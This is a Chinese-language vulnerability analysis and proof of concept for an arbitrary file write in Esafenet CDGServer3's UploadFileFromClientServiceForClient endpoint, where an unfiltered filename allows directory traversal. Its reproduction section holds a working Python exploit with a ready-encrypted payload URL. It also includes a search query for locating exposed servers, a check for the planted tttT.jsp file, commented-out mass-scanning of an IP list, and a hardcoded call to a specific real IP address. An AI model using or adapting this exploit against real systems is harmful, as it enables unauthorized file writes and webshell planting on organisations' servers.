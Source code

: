 # 漏洞分析

根据web.xml定位找到UploadFileFromClientServiceForClient所对应的类

![image-20230816144841496](images/1.png)

该类存在一个PUT和POST方法，PUT方法会调用POST方法

![image-20230816144856196](images/2.png)

首先会获取包含在 URL 中的查询字符串部分。查询字符串是在 HTTP 请求的 URL 中通过问号 ? 后面附加的一系列参数和值，用于将数据传递给服务器。然后进行解密

![image-20230816144931475](images/3.png)

是通过内部的加解密方式进行的

![image-20230816144943918](images/4.png)

通过&对解密后的字符串进行分割，放入一个数组绿盟，遍历数组匹配对不同参数进行赋值

然后创建一个UploadFileFromClientInfo并对相应参数进行设置

![image-20230816144957708](images/5.png)

获取POST的原始数据，创建FIle对象，因为filename的值没有进行过滤， 所以可以通过目录穿越符来实现对任意文件写入，接下来通过IO流操作写到将POST数据写到对应文件中

# 漏洞复现

使用亿赛通本身的代码对内容进行加密

![image-20230816145140801](images/6.png)

```
# (body="CDGServer3" && body!="DLP") || ((((title="电子文档安全管理系统" && (cert="esafenet" || body="CDGServer3")) || (body="CDGServer3/3g" && body="/help/getEditionInfo.jsp")) || body="CDGServer3/index.jsp") && title!="数据泄露")
import requests
import urllib3
import multiprocessing

urllib3.disable_warnings()

# proxies = {
#     "http": "http://127.0.0.1:7890",
#     "https": "http://127.0.0.1:7890"
# }
data = "hello Test"

def poc(url):
    target = url + "/CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM"

    try:
        r = requests.post(target, data=data, verify=False)
        shell = url + "/tttT.jsp"
        if requests.get(shell).status_code == 200:
            with open("result.txt", "a") as f:
                f.write(shell + "\n")
                f.close()
            print(shell)
    except Exception as e:
        pass

if __name__ == "__main__":
    # with open("ip.txt") as file:
    #     urls = [line.strip("\n") for line in file]
    # with multiprocessing.Pool() as pool:
    #     pool.map(poc,urls)
    poc("http://117.107.159.130:8888")
```

![image-20230816145206688](images/7.png)

